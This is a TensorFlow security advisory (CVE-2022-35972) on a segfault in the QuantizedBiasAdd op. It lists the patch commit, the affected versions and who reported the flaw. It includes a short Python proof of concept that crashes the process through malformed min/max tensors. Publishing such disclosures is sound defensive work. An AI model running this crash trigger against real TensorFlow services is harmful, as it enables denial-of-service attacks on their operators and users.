 ## TFSA-2022-105: Segfault in `QuantizedBiasAdd`

### CVE Number
CVE-2022-35972

### Impact
If `QuantizedBiasAdd` is given `min_input`, `max_input`, `min_bias`, `max_bias` tensors of a nonzero rank, it results in a segfault that can be used to trigger a denial of service attack.
```python
import tensorflow as tf

out_type = tf.qint32
input = tf.constant([85,170,255], shape=[3], dtype=tf.quint8)
bias = tf.constant(43, shape=[2,3], dtype=tf.quint8)
min_input = tf.constant([], shape=[0], dtype=tf.float32)
max_input = tf.constant(0, shape=[1], dtype=tf.float32)
min_bias = tf.constant(0, shape=[1], dtype=tf.float32)
max_bias = tf.constant(0, shape=[1], dtype=tf.float32)
tf.raw_ops.QuantizedBiasAdd(input=input, bias=bias, min_input=min_input, max_input=max_input, min_bias=min_bias, max_bias=max_bias, out_type=out_type)
```

### Patches
We have patched the issue in GitHub commit [785d67a78a1d533759fcd2f5e8d6ef778de849e0](https://github.com/tensorflow/tensorflow/commit/785d67a78a1d533759fcd2f5e8d6ef778de849e0).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
